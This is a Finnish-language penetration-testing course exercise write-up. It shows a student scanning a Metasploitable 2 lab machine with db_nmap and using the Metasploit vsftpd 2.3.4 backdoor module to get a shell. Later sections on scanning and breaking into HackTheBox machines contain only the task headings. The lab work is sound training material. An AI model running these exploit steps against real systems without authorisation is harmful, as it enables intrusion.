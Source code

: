 # Harjoitus 5

Tehtävänanto kokonaisuudessaan kohdassa **H5** [Tero Karvisen nettisivuilla](http://terokarvinen.com/2020/tunkeutumistestaus-kurssi-pentest-course-ict4tn027-3006-autumn-2020/).

## Kohta z

Lue artikkelit ja katso videot, tee kustakin muistiinpanot

## Kohta a /// Metasploitable

Asenna Metasploitable 2. Murtaudu sille useilla tavoilla

Latasin **Metasploitable 2** harjoitusmaalin [(Sourceforge)](https://sourceforge.net/projects/metasploitable/), ja asensin sen **Securing Ninjan** ohjeiden [(Securing Ninja)](https://securingninja.com/how-to-install-metasploitable-in-virtualbox/) mukaisesti Virtual Boxille. Käynnistin sen, sekä aikaisemmin luomani **Linux Kalin**. Testiksi pingasin Metasploitablea katsoakseni, että saivat toisiinsa yhteyden.

![ms001.png](./kuvat/ms001.png)

Avasin seuraavaksi **Kalilla** **msfconsolen** ja tarkistin tietokanta yhteyden

    kali $ db_status

ja ohjelma ilmoitti yhteyden pelittävän. Loin uuden **workspacen** Metasploitable kokeiluja varten, jonne ohjelma tallettaisi kaiken keräämäni tiedon. Katsoin myös, että **workspace** luotiin ja että se olisi valittuna.

    kali $ workspace -a metasp
    kali $ workspace

Seuraavaksi ajoin **db_nmapin** Metasploitablea vastaan. Ohjelma toimii kuten normaali **nmap**, mutta tallettaa tiedot **metasploitin** tietokantaan.

    kali $ db_nmap -sC -sV -sT 192.168.42.94

![ms002.png](./kuvat/ms002.png)

Tarkistin skannauksen päätyttyä, että tiedot löytyisivät **metasploitista**.

    kali $ hosts
    kali $ services

![ms003.png](./kuvat/ms003.png)

Silmään pisti portissa **21** pyörivä **vsftpd 2.3.4**. Kyseisessä versiossa on ollut lyhyen aikaa "backdoor" haavoittuvuus [(rapid7)](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/). Etsin **metasploitista** hyökkäyksiä juuri tuohon versioon ja sieltä löytyi yksi. Otin sen aktiiviseksi.

    kali $ search vsftpd 2.3
    kali $ use 0

![ms004.png](./kuvat/ms004.png)

Komennolla "info" saisin lisätietoa hyökkäyksestä. Asetin hyökkäyksen **RHOSTS** arvoksi kohdekoneen IP-osoitteen, jotta se osaisi käyttää sitä oikeaa konetta vastaan.

    kali $ set RHOSTS 192.168.42.94

![ms005.png](./kuvat/ms005.png)

Seuraavaksi ajoin hyökkäyksen ja sain shellin kohdekoneelle! Kokeilin vielä kohdekoneella ajaa **whoamin** katsoakseni, millä tunnuksella olin päässyt sisään.

    kali $ exploit
    kali (kohdekoneen shell)$ whoami

![ms006.png](./kuvat/ms006.png)



## Kohta b ja c /// Skannaa HackTheBoxin verkko

**b:** Skannaa HackTheBoxin verkko niin, että tallennat tulokset Metasploitin tietokantoihin.
**c:** Onko joukossa vanhoja tai haavoittuvia versioita.

## Kohta k /// Korkkaa jokin HTB:n kone

# Lähteet

1. [Tero Karvinen](http://terokarvinen.com/2020/tunkeutumistestaus-kurssi-pentest-course-ict4tn027-3006-autumn-2020/)
2. [Sourceforge](https://sourceforge.net/projects/metasploitable/)
3. [Securing Ninja](https://securingninja.com/how-to-install-metasploitable-in-virtualbox/)
4. [rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
